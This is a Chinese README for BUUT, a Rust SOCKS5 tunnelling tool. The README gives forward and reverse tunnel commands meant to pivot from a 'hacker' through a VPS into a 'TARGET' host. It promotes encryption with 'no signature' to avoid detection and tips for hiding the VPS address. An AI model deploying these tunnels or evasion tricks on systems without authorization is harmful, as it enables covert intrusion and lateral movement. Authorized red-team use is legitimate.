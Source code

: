 # BUUT 

https://github.com/YDHCUI/buut

## 介绍 
一款使用rust开发的高性能正反向代理隧道工具，基于yamux多路复用技术。


## 工作原理
```rust
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
|hacker| <--> | Socks5 VPS  | <--> |Yamux frame| <--> |Noise stream | <--> |TCP stream| <--> |TARGET|
+------+      +-------------+      +-----------+      +-------------+      +----------+      +------+
```

## 参数介绍 
```rust
    opts.optopt("l", "server_listen",   "", "服务监听地址,默认0.0.0.0:443");
    opts.optopt("s", "remote_addr",     "", "远程地址,默认127.0.0.1:443");
    opts.optopt("p", "proxy_port",      "", "代理端口,默认10086");
    opts.optopt("m", "transport",       "", "协议类型,默认TCP");//|KCP|WS|ICMP|DNS
    opts.optopt("k", "key",             "", "加密密钥");
    opts.optopt("n", "channel",         "", "通道数量,默认1");
    opts.optopt("c", "config",          "", "配置文件路径");
    opts.optopt("",  "sockspass",       "", "代理密码,默认不验证,用户名buut"); 
    opts.optflagopt("F", "forward",     "", "是否正向模式");
    opts.optflagopt("S", "server",      "", "是否服务模式");
```

## 特点：

速度快，使用多路复用技术 将带宽利用到极致。rust开发，速度、稳定性和安全性都有保证。

体积小，编译只有不到几百k, 使用upx后还能更小,相比golang写的程序动辄10多M还是很有优势的。

无特征，程序使用Noise定制加密，可使用动态密钥保证无任何特征。

单文件，客户端和服务端使用同样的单文件、多模式自由组合切换。

多协议，目前release 0.4已支持tcp、kcp、websocket，后续把icmp、dns协议支持加进去。
    


## 使用方法 

### 正向隧道：

```bash
    target执行：./buut -F -l 443 
    vps执行 ：./buut -F -S -s target:443 -p 10086
    hacker连接socks5  vps:10086 
```

### 反向隧道

```bash
    vps执行：./buut -S -l 443 -p 10086
    target执行：./buut -s vps:443
    hacker连接socks5  vps:10086 
```

### Tips

1、设置BUUT变量隐藏vps。 如： 原本的 ./buut -s vps:1234 可改成 export BUUT=vps:1234 && ./buut 

2、使用websocket协议时,连接地址应设为ws://xxx格式 如: ./buut -m ws -s ws://target:8081/xx

3、sockspass是对client端生效，所以设置时应该在client设置，如 ./buut -s 127.0.0.1:443 --sockspass 123456


## 更新 

### 0.4.1

1、修改使KCP协议也使用noise加密。

2、修复正向代理不能使用kcp协议的问题。


### 0.4

1、加入websocket, kcp 协议支持。

2、修复client端不会自动重连的bug。

3、优化参数配置。

### 0.3.1 

1、加入windows支持。

2、修改默认参数。

3、优化体积。


## todo

1、增加icmp、dns协议支持  

2、增加自动设置端口复用模式参数

3、加入多级代理支持

4、优化参数体验
    
